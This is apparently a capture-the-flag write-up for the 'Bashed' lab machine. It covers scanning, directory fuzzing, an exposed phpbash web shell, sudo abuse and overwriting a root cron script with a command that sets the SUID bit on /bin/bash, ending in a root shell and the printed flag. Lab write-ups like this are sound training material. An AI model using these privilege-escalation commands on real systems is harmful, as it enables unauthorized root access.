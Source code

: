 ## Initial NMAP:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nmap 10.129.39.129 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-19 10:56 +0545
Nmap scan report for 10.129.39.129
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.22 seconds
```

## Enemurating Port 80:

The index page consists of blog of phpbash, where one can execute bash commands through the web interface. 
Let's fuzz:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ ffuf -u http://10.129.39.129/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -c -ic -t 2000

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.39.129/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 2000
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

php                     [Status: 301, Size: 312, Words: 20, Lines: 10]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10]
                        [Status: 200, Size: 7743, Words: 2956, Lines: 162]
```
After revewing the discovered endpoint, the `/dev` directory contains phpbash which is web interface for executing bash commands where `../uploads` is writeable, we can upload our reverse shell there.

```bash
www-data@bashed:/var/www/html/dev# ls -la ../uploads

total 12
drwxrwxrwx 2 root root 4096 Jun 2 2022 .
drw-r-xr-x 10 root root 4096 Jun 2 2022 ..
-rwxrwxrwx 1 root root 14 Dec 4 2017 index.html
```

this is how we get our shell as www-data.

## Privilege Escalation:

```bash
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

We can run all commands as scriptmanager without password, let's check what we can do with this user.

```bash
sudo -u scriptmanager /bin/bash

scriptmanager@bashed:/$ ls -la /
ls -la /
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            212 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 Dec 18 21:05 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 176 root          root              0 Dec 18 21:05 proc
drwx------   3 root          root           4096 Dec 18 21:06 root
drwxr-xr-x  18 root          root            520 Dec 18 21:05 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Dec 18 21:40 sys
drwxrwxrwt  10 root          root           4096 Dec 18 21:41 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

We can see that scriptmanager has write access to `/scripts` directory, let's check what we can do with this directory.

```bash
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 18 21:42 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

There is file called test.py which is owned by scriptmanager, checking the content, it just writes to the file called test.txt, but looking at the ownership we can see the file test.txt is owned by root. We already can assume that there's cronjob on test.py running as root, so we can abuse this to run any command as root.

```bash
scriptmanager@bashed:/scripts$ echo "import os;os.system('chmod u+s /bin/bash')">test.py
scriptmanager@bashed:/scripts$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cat /root/root.txt
cat /root/root.txt
33b16ed960c3e02c7b52bc7dd2cea7f4
```

# Takeaways:
- Sometimes all you need is to be able to understand the hints, the hints are there for a reason, the machine was pretty straight forward as there was already a web interface for executing bash commands.